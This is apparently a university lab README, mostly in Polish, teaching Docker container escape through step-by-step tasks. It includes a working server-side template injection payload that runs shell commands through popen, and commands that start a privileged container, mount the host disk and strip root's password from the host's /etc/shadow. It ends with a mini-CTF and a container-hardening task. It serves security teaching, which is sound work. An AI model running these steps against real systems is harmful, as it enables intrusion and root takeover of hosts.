 
# Docker-Escape
This project shows vulnerability how to escape from Docker container in which web application is running. <br />

## About
This project was made for academic purposes during one of our courses at the AGH University of Krakow. <br />
We present security issues in Docker. We show vulnerabilities of this software and best practices related to them. Below we also include case-studies showing how to get into the server from the user level of a web application, how to escape from this container and the possibilities that open up to us after such an escape.<br />

  
## Authors:
[Huber Mąka](https://github.com/norka02) <br />
[Karol Makara](https://github.com/KarolMakara) <br />
[Jakub Kowal](https://github.com/jd-kowal) <br />

*** 

# Tasks


## Task 0 - Przygotowanie środowiska
Aby rozpocząć wykonywanie zadań sklonujcie repozytorium. <br />
Będziemy używać Dockera (kontener w kontenerze). Całość jest przygotowana w docker.file. <br />
Następnie wykonaj poniższe komendy. <br />

Build:
```bash: 
docker build -t ubuntu-dind
```

Run:
```bash: 
docker run -d -p 5000:5000 --privileged --hostname ubuntu-dind --name ubuntu-dind ubuntu-dind
```

Enter:<br />
```bash: 
docker exec -itu adam ubuntu-dind bash
```

**TIP** - w przypadku problemów -> zrestartuj kontener 

## Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej
Na kontenerze jest uruchomiona aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj za pomocą preparacji url-a wykonać podstawowy pentesting (np. podawany podczas prezentacji przykład wyrażenia 7*7). <br />
Następnie jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49 to możemy przejść dalej. <br />
Do następnej czynności będziemy potrzebowali poniższej komendy. <br />

```
"baiim".__class__.__base__.__subclasses__()[<Liczba_Którą_Znalazłeś>].__init__.__globals__['sys'].modules['os'].popen(<Twoja_Komenda>).read()
```

Najpierw jednak musimy znaleźć **LICZBĘ**. Aby ją odszukać użyj programu ``hack.py`` w konsoli.

**Odpowiedź** - wyślij ss, który wylistuje wszystkie pliki i katalogi z aktualnego katalogu (wpisz tą komendę w popen()) 

## Task 2 - Docker Escape & Privilege Escalation
**TIP** - proponujemy przejście z wykonywaniem zadań do terminala. <br />
Ucieczkę z kontenera umożliwia nam złe skonfigurowanie kontenera. <br />

Spróbuj zmienić użytkownika na root-a (nie powinieneś mieć takiej możliwości - powinieneś być na adamie) {**PE**}: 
```
su root
```
Sprawdź listę dostępnych obrazów:
```
docker images
```
Pobierz obraz dockera z repozytorium:
```
docker pull ubuntu
```
![image1](https://github.com/norka02/Docker-Escape/assets/94318576/daff8699-e65e-4b32-a762-a6ba73781618) <br />
Po pobraniu sprawdź czy obraz pobrał się poprawnie za pomocą:
```
docker images
```
Będąc na użytkowniku **adam** uruchom kontener {**DE**}:
```
docker run --rm -it --name kontener-adama --hostname ubuntu-by-adam --privileged ubuntu bash
```
Teraz jesteś wewnątrz swojego kontenera, którego przed chwilą stworzyłeś. Możesz to sprawdzić za pomocą komend ``whoami`` oraz ``hostname``. <br />
Przykładowy ScreenShot znajduje się poniżej.
![image2](https://github.com/norka02/Docker-Escape/assets/94318576/7a2266e8-ce4f-44dd-9a3d-e93341a36755) <br />
Jak możesz zauważyć tworząc własny kontener masz w nim uprawnienia root-a. <br />
Następnie stwórz w swoim kontenerze z obrazem ubuntu katalog: <br />
```bash
mkdir -p /mnt/share
```
Oraz podmontuj odpowiednią partycję dysku do tego katalogu np. /dev/sdc: <br />
```bash
mount /dev/sdc /mnt/share
```
Domyślnie polecenie mount nadaje ci prawa do zapisu i odczytu, ale jeśli wystąpiłby przykładowo taki komunikat: <br />
![image3](https://github.com/norka02/Docker-Escape/assets/94318576/d1cd3e07-3672-4086-bb40-2b86b14bceb5) <br />
Zmień partycję dysku. Listę partycji możesz uzyskać za pomocą polecenia: <br />
```bash
lsblk
```
Dzięki podmontowaniu partycji jesteśmy w stanie uzyskać dostep do struktury katalogów hosta. Spróbuj przedostać się do zewnętrznego systemu plików, odnajdź pliki ``/etc/shadow`` oraz ``/etc/passwd`` i usuń w nich elementy odpowiadające za uwierzytelnienie użytkownika root. <br />
Teraz wykonujemy poniższą komendę:
```bash
apt update
```

Musimy zainstalować w kontenerze wybrany przez siebie edytor tekstowy (np. vim, nano). 
```bash
apt install vim
```
Sprawdź czy masz dostęp do struktury katalogów hosta:
```bash
 ls -l /mnt/share 
```
Za pomocą edytora tekstowego otwieramy plik ``/etc/shadow`` oraz ``/etc/passwd``. 
```bash
vim /mnt/share/etc/passwd
```
Trzeba usunąć część wskazującą na obecność hasła root-a w pliku shadow {**PE**}. <br />

![image5](https://github.com/norka02/Docker-Escape/assets/94318576/8bf49b45-925b-4c12-b7a5-9a6a5cbf5b4b)
![image4](https://github.com/norka02/Docker-Escape/assets/94318576/f38a79ad-7e7a-4e0b-a404-cfce4b5aaea8)
<br />

Wyjdź z kontenera za pomocą ``exit``. <br />
Zmień użytkownika na root-a {**PE**}:
```
su root
```

**Odpowiedź** - wyślij ss potwierdzającego twoje uprawnienia root-a. 

## Task 3 - Mini-CTF
Mając uprawnienia root-a możesz poruszać się bezproblemowo po systemie. Znajdź katalog, który nie powinien znajdować się w systemie/wyróżnia się spośród pozostałych. W nim znajduje się plik z flagą. Zmodyfikuj znaleziony plik dodając swoje imię i nazwisko. <br />

**Odpowiedź** - wyślij widoczną zmodyfikowaną flagę wraz z dopisanym unikalnym tekstem wymienionym wyżej oraz ścieżkę do katalogu, w którym znajduje się znaleziona flaga. 

## Task 4 - Tworzenie Bezpiecznego Kontenera
Posiadając całą wiedzę zdobytą podczas prezentacji oraz poprzednich tasków zastanów się w jaki sposób możesz zabezpieczyć kontener przed różnymi wektorami ataków. <br />
Stwórz kontener, który spełnia wszystkie best-practice dot. bezpiecznego tworzenia kontenera Dockera. <br />
<br />
**Odpowiedź** - wyślij widoczną komendę, która tworzy **Bezpieczny Kontener**. <br />
